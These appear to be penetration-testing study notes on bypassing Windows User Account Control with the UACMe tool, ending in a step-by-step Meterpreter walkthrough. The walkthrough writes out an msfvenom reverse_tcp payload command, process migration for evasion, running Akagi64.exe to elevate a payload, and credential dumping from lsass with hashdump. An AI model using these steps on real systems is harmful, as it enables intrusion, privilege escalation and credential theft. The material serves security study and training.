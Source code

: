 
### What is UAC ?

UAC (User Access Control)

- User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorised changes from being made to the operating system.

- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.

- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.

- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

### Bypassing UAC

- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the Windows target system. 

- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.

- UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation. 

- There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.

### What is `UACMe` ?

- UACMe is an open source, robust privilege escalation tool developed by @hfireOx. It can be used to bypass Windows UAC by leveraging various techniques. 

	+ GitHub: https://github.com/hfiref0x/UACME

- The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.

- It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AuteElevate tool. 

- The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

### How to use `UACMe` ?

- __Prerequisites__
	+ The actual executable to perform the UAC bypass is called `Akagi`, it doesn't comes pre-compiled in the repository as it'll be flagged malicious, therefore we need to compile it ourselves.
	+ In order to elevate privileges by bypassing UAC, we will need access to a user that is a member of the local administrators group. Use command - `net local administrators` to check the list of local administrators.


__STEPS__
1) Gain initial access to a target system
2) If the `meterpreter` session is running in a 32 bit process, we can migrate to a 64 bit process such as `explorer.exe` with PID of 2448. Command is `migrate 2448`.
	+ The process ID of explorer can be found using the command `ps -S explorer.exe`.
	+ Process migration is used for evasion, persistence, stealth and architecture matching.
	+ The original process that the attacker used to gain access to the system is different from the process they inject their code into.
3) We can check the privileges of the current user using `getprivs`
4) Generate a `msfvenom` `meterpreter` payload.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=<lport> -f exe > payload.exe
```
5) Setup the multi handler to listen for connections. `use multi/handler`
6) Go back to the `meterpreter` session and navigate to the Temp directory of the target. `cd %TEMP%`
7) Temp directory is in `C:\Users\<user>\AppData\Local\Temp\`
8) Upload the `payload.exe` and `Akagi64.exe` files into the Temp directory. 
9) `shell` into the system and execute `Akagi64.exe`. 
```
.\Akagi64.exe <key_number> <path_to_payload>
```
10) Make sure to provide the full path to the payload.
11) After executing this command, `Akagi` will execute the payload with administrative privileges. And we should receive an elevated `meterpreter` session in our listener.
12) We can then migrate to `lsass.exe` and perform `hashdump`.